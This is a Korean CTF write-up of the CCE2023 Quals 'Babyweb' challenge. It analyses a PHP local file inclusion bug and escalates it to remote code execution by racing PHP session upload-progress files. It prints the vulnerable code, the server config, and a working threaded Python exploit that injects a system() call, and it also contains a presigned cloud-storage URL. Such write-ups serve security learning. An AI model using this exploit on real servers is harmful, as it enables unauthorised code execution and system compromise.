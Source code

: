 ```yaml
---
layout: post
date: 2023-06-11
title: CCE2023 Quals Babyweb write-up
tags: [LFI2RCE, webhacking, ]
categories: [CTF, CCE2023, ]
---
```


### 취약점 분석


먼저 제공된 파일 중 `index.php`을 보면 GET 파라미터로 넘어온 값을 include 한다는 것을 알 수 있다.


```php
<?php
    $page = $_GET['page'];
    if(isset($page)){
        include("./data/".$page);
    } else {
        header("Location: /?page=1");
    }
?>

```


이를 통해 LFI 취약점을 트리거 할 수 있는데, php 내용을 어디에 쓸 수 있을 지가 고민이었다.


`www.conf`의 내용을 보면 `session.upload_progress.enabled`가 1로 설정되어 있으므로, `PHP_SESSION_UPLOAD_PROGRESS`를 통해 php 코드를 업로드 할 수 있다.


```text
[www]
user = www-data
group = www-data
listen = /run/php/php7.4-fpm.sock
listen.owner = www-data
listen.group = www-data
pm = dynamic
pm.max_children = 48
pm.start_servers = 16
pm.min_spare_servers = 8
pm.max_spare_servers = 16
php_admin_value[session.upload_progress.enabled] = 1
php_admin_value[memory_limit] = 32M
php_admin_value[max_execution_time] = 10s
php_admin_value[opcache.enable] = 0
request_terminate_timeout = 15s

```


`session.upload_progress.enabled`옵션은 php 내부에서 업로드 중인 개별 파일의 진행률을 추적하기 위해 사용된다.
해당 옵션이 켜져있으면 `session_start` 함수 없이도 세션 파일을 생성할 수 있으므로 세션 파일을 통해 RCE를 진행할 수 있다.


다만, 해당 문제에서는 `session.upload_progress.cleanup` 옵션이 활성화 되어 있으므로 세션 파일이 바로 삭제된다. 하지만 크기가 큰 파일을 보내고, Race Condition을 통하면 세션 파일을 읽을 수 있다.


### 익스플로잇


```python
import requests
import threading

SERVER = False
url = '<http://localhost:8080>' if not SERVER else "<http://20.196.197.149:8000>"


def read_session():
    while True:
        res = requests.get(
            url + "/?page=../../../../../../../../../../var/lib/php/sessions/sess_lourcode")
        if len(res.text) != 0:
            print(res.text)

def write_session():
    while True:
        res = requests.post(url, files={'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag") ?>'), 'file': ('lourcode', 'lourcode' * 0x300, 'application/octet-stream', {
                            'Expires': '0'})}, cookies={'PHPSESSID': 'lourcode'})



read = threading.Thread(target=read_session)
read.start()

write = threading.Thread(target=write_session)
write.start()
```


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7408dda1-cd86-4a3d-ba15-65d01621923b/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230620%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230620T201207Z&X-Amz-Expires=3600&X-Amz-Signature=2b642fe15f38cd1c35491367c8ab6a64e3dbe9635084d1b44df52b16cbcdfdde&X-Amz-SignedHeaders=host&x-id=GetObject)


플래그를 획득하였다.


### Reference


[https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress)

